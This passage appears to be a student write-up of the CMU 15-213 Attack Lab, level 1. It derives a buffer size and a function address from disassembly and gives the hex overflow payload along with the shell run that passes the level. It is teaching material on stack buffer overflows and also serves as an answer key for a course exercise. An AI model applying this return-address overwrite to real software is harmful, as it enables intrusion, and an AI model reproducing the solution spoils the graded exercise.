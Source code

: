 - From `sub rsp,0x28`, we get the buffer size is `$0x28=40`.

- From `0x00000000004017c0 <+0>:	sub rsp,0x8`, we get the address of the `touch1` function is `0x00000000004017c0`.

So, our payload is that:

```Text
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
c0 17 40 00
00 00 00 00
```

And in the stack frame, its structure is as follows:

![payload1](../img/payload1.png)

```Shell
attack_lab/part1# vim solution1.hex
attack_lab/part1# ./hex2raw -i solution1.hex > solution1.raw
attack_lab/part1# ./ctarget -q < solution1.raw
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
attack_lab/part1#
```
